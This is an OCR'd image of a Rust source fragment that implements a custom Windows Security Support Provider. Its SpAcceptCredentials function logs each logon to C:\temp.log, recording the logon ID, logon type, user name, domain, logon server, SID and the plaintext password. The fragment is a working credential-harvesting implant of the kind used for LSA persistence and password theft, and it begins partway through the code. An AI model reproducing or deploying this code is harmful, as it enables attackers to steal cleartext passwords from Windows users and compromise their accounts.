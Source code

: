 ```rust
        os_string.into_string().unwrap()
}
#[no_mangle]
pub unsafe extern "system" fn _SpAcceptCredentials(
        logontype: SECURITY_LOGON_TYPE,
        accountname: *const LSA_UNICODE_STRING,
        primarycredentials: *const SECPKG_PRIMARY_CRED,
        supplementalcredentials: *const SECPKG_SUPPLEMENTAL_CRED,
    ) -> NTSTATUS {
        let mut logfile = File::create("C:\\temp.log").expect("");
        logfile.write_all(">>>>\n".as_bytes()).expect("CustSSP.log write failed");
        writeln!(
            logfile,
            "[+] Authentication Id : {}:{} ({:08x}:{:08x})",
            (*primarycredentials).LogonId.HighPart,
            (*primarycredentials).LogonId.LowPart,
            (*primarycredentials).LogonId.HighPart,
            (*primarycredentials).LogonId.LowPart,
        ).unwrap();
        let logon_type_str = match logontype {
            SECURITY_LOGON_TYPE::UndefinedLogonType => "UndefinedLogonType",
            SECURITY_LOGON_TYPE::Interactive => "Interactive",
            SECURITY_LOGON_TYPE::Network => "Network",
            SECURITY_LOGON_TYPE::Batch => "Batch",
            SECURITY_LOGON_TYPE::Service => "Service",
            SECURITY_LOGON_TYPE::Proxy => "Proxy",
            SECURITY_LOGON_TYPE::Unlock => "Unlock",
            SECURITY_LOGON_TYPE::NetworkCleartext => "NetworkCleartext",
            SECURITY_LOGON_TYPE::NewCredentials => "NewCredentials",
            SECURITY_LOGON_TYPE::RemoteInteractive => "RemoteInteractive",
            SECURITY_LOGON_TYPE::CachedInteractive => "CachedInteractive",
            SECURITY_LOGON_TYPE::CachedRemoteInteractive => "CachedRemoteInteractive",
            SECURITY_LOGON_TYPE::CachedUnlock => "CachedUnlock",
            _ => "Unknown !"
        };
        writeln!(logfile, "[+] Logon Type        : {}", logon_type_str).unwrap();
        writeln!(logfile, "[+] User Name         : {:?}", accountname);
        writeln!(logfile, "[+] * Domain   : {:?}", lsa_unicode_string_to_string(&(*primarycredentials).DomainName));
        writeln!(logfile, "[+] * Logon Server     : {:?}", lsa_unicode_string_to_string(&(*primarycredentials).LogonServer));
        writeln!(logfile, "[+] * SID     : {:?}", convert_sid_to_string((*primarycredentials).UserSid));
        writeln!(logfile, "[+] * UserName   : {:?}", lsa_unicode_string_to_string(&(*primarycredentials).DownlevelName));
        writeln!(logfile, "[+] * Password       : {:?}", lsa_unicode_string_to_string(&(*primarycredentials).Password));
        drop(logfile);
        STATUS_SUCCESS
    }

#[no_mangle]
pub fn convert_sid_to_string(sid: PSID) -> Result<String> {
        let mut sid_string_ptr: PWSTR = windows::core::PWSTR(std::ptr::null_mut());
        let result = unsafe { ConvertSidToStringSidW(sid, &mut sid_string_ptr) };
        if result.is_ok() {
            let sid_string = unsafe { get_string_from_pwstr(sid_string_ptr) };
            Ok(sid_string)
        } else {
            Err(Error::from_win32())
        }
    }

```